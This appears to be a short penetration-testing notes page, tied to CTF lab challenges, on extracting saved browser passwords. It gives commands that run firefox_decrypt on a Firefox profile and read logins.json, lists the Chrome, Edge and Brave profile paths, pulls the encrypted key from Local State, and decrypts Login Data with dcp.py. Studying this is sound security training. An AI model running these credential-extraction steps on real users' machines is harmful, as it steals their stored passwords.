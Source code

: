 # Browser Saved Passwords

<div class="row row-cols-lg-2"><div>

#### Extract Firefox Saved Passwords

[![password_attacks](../../../_badges/htb/password_attacks.svg)](https://academy.hackthebox.com/course/preview/password-attacks)
[![file_insecure_storage_1](../../../_badges/rootme/cryptanalysis/file_insecure_storage_1.svg)](https://www.root-me.org/en/Challenges/Cryptanalysis/File-Insecure-storage-1)

Mozilla Firefox passwords can be extracted and cracked using [firefox_decrypt](https://github.com/unode/firefox_decrypt) <small>(1.7k ⭐)</small>. To install it on Kali:

```ps
$ cd /opt
$ git clone https://github.com/unode/firefox_decrypt.git
$ cd firefox_decrypt
$ python3.9 firefox_decrypt.py -h
$ python3.9 firefox_decrypt.py /tmp/.mozilla/firefox/
```

Additional notes:

```ps
$ ls -l .mozilla/firefox/ | grep default
$ cat .mozilla/firefox/xxx.default-release/logins.json | jq.
```
</div><div>

#### Extract Chrome, Edge, and Brave Saved Passwords

[![chrome](../../../_badges/thm-p/chrome.svg)](https://tryhackme.com/room/chrome)

On Windows, you can find the user sensitive files at:

```text!
AppData\Local\Microsoft\Edge\User Data
AppData\Local\Google\Chrome\User Data
AppData\Local\BraveSoftware\Brave-Browser\User Data\
```

The [SQLite](/programming-languages/databases/relational/dbms/sqlite.md) database with user passwords is stored at `./<profile>/Login Data`. The default profile is called `Default`.

Passwords are encrypted using a base64 encoded secret key in:

```ps
$ cat "./Local State" | jq | grep "encrypted_key"
"encrypted_key": "<secret key here>"
```

You can use [dcp](https://github.com/palmenas/dcp/tree/main) <small>(0.02k ⭐)</small>, a Linux port of [decrypt-chrome-passwords](https://github.com/ohyicong/decrypt-chrome-passwords/) <small>(0.7k ⭐)</small>, to decrypt passwords using the secret key:

```ps
$ python3 dcp.py -S secret_key -P "./Default/Login Data"
```
</div></div>